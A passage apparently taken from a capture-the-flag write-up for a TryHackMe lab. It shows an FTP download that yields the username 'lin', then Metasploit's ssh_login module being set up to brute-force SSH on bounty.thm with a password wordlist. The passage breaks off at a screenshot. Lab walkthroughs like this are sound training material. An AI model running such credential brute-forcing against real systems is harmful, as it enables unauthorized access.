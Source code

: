 These looks like passwords .

```
ftp> get task.txt -
remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
226 Transfer complete.
68 bytes received in 00:00 (1.21 KiB/s)

```

So we have a username : **lin.**

We can download them in our directory with a simple `get <filename>` .

## SSH

Now we can try [Bruteforcing](../../3%20-%20Tags/Hacking%20Concepts/Bruteforcing.md) [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with these credentials, we can use **[Hydra](../../3%20-%20Tags/Hacking%20Tools/Hydra.md)** or <span style="color: rgb(224, 62, 45);">**Metasploit**</span> 

### [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md)

We search for **ssh_login**, select <span style="color: rgb(224, 62, 45);">scanner/ssh/ssh_login</span> and set options :

```
msf6 auxiliary(scanner/ssh/ssh_login) > options
msf6 auxiliary(scanner/ssh/ssh_login) > set pass_file /home/mdn0x/THM/CHALLENGES/Easy/Bounty/locks.txt
pass_file => /home/mdn0x/THM/CHALLENGES/Easy/Bounty/locks.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set rhosts bounty.thm
rhosts => bounty.thm
msf6 auxiliary(scanner/ssh/ssh_login) > set username lin
username => lin
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
msf6 auxiliary(scanner/ssh/ssh_login) > run

```

Now we wait for the result :

![c06e4e64ab34897a8b3162d5fd80ee1d.png](../../2%20-%20Resources/Others/Flameshots/c06e4e64ab34897a8b3162d5fd80ee1d.png)